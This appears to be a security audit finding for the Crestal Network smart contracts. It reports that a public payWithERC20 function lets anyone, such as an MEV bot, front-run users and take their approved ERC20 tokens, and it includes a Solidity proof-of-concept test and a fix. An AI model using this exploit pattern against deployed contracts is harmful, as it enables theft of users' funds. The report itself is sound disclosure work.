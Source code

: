 Best Plastic Yak

High

# MEV bot will steal approved funds using payWithERC20

### Summary

To pay for operations with ERC20 tokens a user must approve the blueprint contract address a specified amount so it can execute a `safeTransferFrom` call. 
The problem is that the[ `Payment::payWithERC20` ](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25) function that executes this call is public, meaning that anyone can call it and steal all the approved funs to the contract.

### Root Cause

In `Payment.sol:25`  the `payWithERC20` is public, so anyone can call it and set themselves as the `toAddress`, stealing all the approved funds.

### Internal Pre-conditions

1. User approves funds for the blueprint contract address.

### External Pre-conditions

None

### Attack Path

1. MEV bot sees transaction in the mempool with one of the following functions:
    - `createAgentWithToken`
    - `createAgentWithTokenWithSig`
    - `updateWorkerDeploymentConfig`
    - `userTopUp`
2. MEV bot steals approved funds
3. User transaction reverts

### Impact

All approved funds to pay operation costs can be stolen.

### PoC

Test can be added to the BlueprintV5.t.sol test file
```solidity
function test_frontrunCreateAgentWithToken() public {
        address attacker = makeAddr("attacker");
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(address(this));
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // check LogApproveEvent
        vm.expectEmit(true, true, false, true);
        emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        // 1. MEV bot sees the transaction in the mempool
        // 2. MEV bot steals approved funds
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, address(this), attacker);
        uint256 stolenBalance = mockToken.balanceOf(attacker);
        assertEq(stolenBalance, validTokenAmount);

        // 3. User transaction is executed but reverts
        vm.expectRevert();
        blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
        balance = mockToken.balanceOf(address(this));
        assertEq(balance, 0);
    }
```

### Mitigation

Make the `payWithERC20` function internal.